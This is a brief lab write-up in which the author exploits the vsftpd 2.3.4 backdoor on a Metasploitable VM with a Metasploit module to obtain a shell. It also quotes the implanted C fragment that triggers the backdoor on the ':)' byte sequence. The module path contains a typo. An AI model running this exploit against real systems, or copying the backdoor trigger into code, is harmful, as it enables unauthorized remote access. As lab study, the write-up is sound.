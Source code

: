 First, I will need to create a lab in order to start testing network and operating system security. To do this, I have installed Kali Linux and Metasploitable into Virtualbox. 

After getting these set up I ran Zenmap to check for open ports on Metasploitable. Many were found but I focused on the first one, the FTP service on port 21. Zenmap showed that this was running version vsftpd 2.3.4. I searched online and Rapid7 showed that an exploit existed for this version called VSFTPD v2.3.4 Backdoor Command Execution. 

I started the Metasploit Framework and ran the command 'use exploit/unixx/ftp/vsftpd_234_backdoor. I set the target to 0 and RHOST to the IP of the Metasploitable VM and ran the exploit. I was able to the get a shell on the Metaploitable VM. I ran commands such as ifconfig, whoami and uname -r to confirm. 

The VSFTPD website was compromised back in 2011 and the attacker uploaded a malicious version of VSFTPD which contained a backdoor that listens on TCP port 6200. The code implanted into the source code was

            else if((p_str->p_buf[i]==0x3a)
            && (p_str->p_buf[i+1]==0x29))
            {
              vsf_sysutil_extra();
             }
             
This allows an attacker to send certain bytes into the network buffer and if they match 0x3a) and 0x29, then the vsf_sysutil_extra function is triggered. 

